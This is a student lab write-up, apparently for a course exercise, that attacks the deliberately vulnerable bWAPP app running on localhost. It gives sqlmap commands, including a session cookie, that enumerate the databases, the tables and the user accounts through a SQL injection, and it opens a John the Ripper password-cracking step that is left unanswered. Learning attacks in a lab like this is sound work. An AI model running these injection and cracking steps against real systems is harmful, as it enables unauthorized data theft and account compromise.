

# Task 2: Attack on the database of bWapp 

**Question 1**: Use sqlmap to get information about all available databases

**Answer 1**:
-  I choose SQL Injection (GET/Select) bug
-  Then I get my cookie from my browser setting


-  Command Script:

```
 python sqlmap.py -u "http://localhost:8025/sqli_2.php?movie=4" --dbs --cookie="PHPSESSID=rg31vtuuuqt0s0vh272rrecg14;security_level=0"
```

- Then the output of all databases:


**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:

-  Get Tables:
From these databases form question 1. I want to get names of all tables in the database bWAPP, this is the root database that stores all user in this database.

```
python sqlmap.py -u "http://localhost:8025/sqli_2.php?movie=4" -D bWAPP --tables --cookie="PHPSESSID=rg31vtuuuqt0s0vh272rrecg14;security_level=0"
```
- Output of getting table:


- Get Users

```
python sqlmap.py -u "http://localhost:8025/sqli_2.php?movie=4" -users --cookie="PHPSESSID=rg31vtuuuqt0s0vh272rrecg14;security_level=0"
```

-  Output of getting users:



So now I have all the table and user accounts on bWAPP.

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:


